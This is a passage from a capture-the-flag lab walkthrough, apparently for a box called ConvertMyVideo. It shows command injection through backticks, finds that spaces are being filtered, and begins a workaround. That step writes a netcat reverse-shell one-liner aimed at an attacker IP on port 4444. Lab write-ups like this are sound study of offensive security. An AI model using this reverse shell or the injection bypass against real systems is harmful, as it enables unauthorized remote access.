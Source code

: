 Here, we can see that backticks worked. So, we can try to send a reverse shell payload and to get access to the machine:

![rev_shell_fail](./.images/rev_shell_fail.png)

Though we saw that we can perform command injection over here, it certainly did not work in the case of obtaining a reverse shell. And we look closely at the response through all the commands that we had sent then it can be seen that our provided command was getting reflected in `"url_original":<entered_value>`. But in the case of reverse shell, the value that was returned was just ``"url_original":"`rm"``. It appears that space (` `) is being filtered from the input. To confirm this we can send the command `ls -la`.

![ls_la](./.images/ls_la.png)

And as expected only `ls` was returned in the output. So, we can be sure that space(` `)is being filtered out.

## Gaining Foothold

Now the issue here is that in order to get access to the system we need to run the reverse shell command anyhow on the system but our input is getting filtered. So, in order to bypass this we can do the following:

1. Create a bash file with reverse shell payload in it on our local machine

   ```bash
   ┌──(kali㉿kali)-[~/Desktop/oscp/convertMyVideo]
   └─$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.91.135 4444 >/tmp/f" > shell.sh
   ```
